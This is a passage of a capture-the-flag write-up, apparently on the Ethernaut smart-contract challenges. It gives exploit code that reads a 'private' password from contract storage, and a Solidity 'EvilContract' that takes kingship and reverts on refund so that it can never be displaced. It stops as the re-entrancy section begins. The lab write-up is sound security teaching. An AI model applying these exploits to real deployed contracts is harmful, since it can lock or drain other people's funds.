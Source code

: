 -----
**Exploitation**

```js
 const password = await web3.eth.getStorageAt(address, 1);
 await contract.unlock()
```

Challenge solved ✅

## King

**Challenge description**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

--------
**Analysis**

![King method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138016/26bbecde7b1eacd1313c83ad3cd9b8dc4aa55e3dacc9e5acf006ef155bcbc49c_x8mhfi.png)  

Pretty interesting, at first sight you might find this function unbreakable ( as I did ). But then a good look to the transfer method. I was thinking in term of a user who will interact with this contract. How about another contract ?
If we go back to the `fallback` challenge we talked about *fallback* methods. Here when we call `transfer` a callback function of the contract to whom we are transferring funds to will be triggered.

-----
**Exploitation**

1. Make our contract the king.
2. Our contract now revert the transaction and won't step down from the throne 😈.

```js
contract EvilContract { 

    function becomeKing(address victimAddress) public payable { 
        victimAddress.call{value:1000000000000000000}("");
    }

    function() external payable { // fallback function definition
        revert("The kingdom is mine now !");
    }
}
```

Challenge solved ✅

## Re-entrancy

**Challenge description**

The goal of this level is for you to steal all the funds from the contract.

--------
**Analysis**
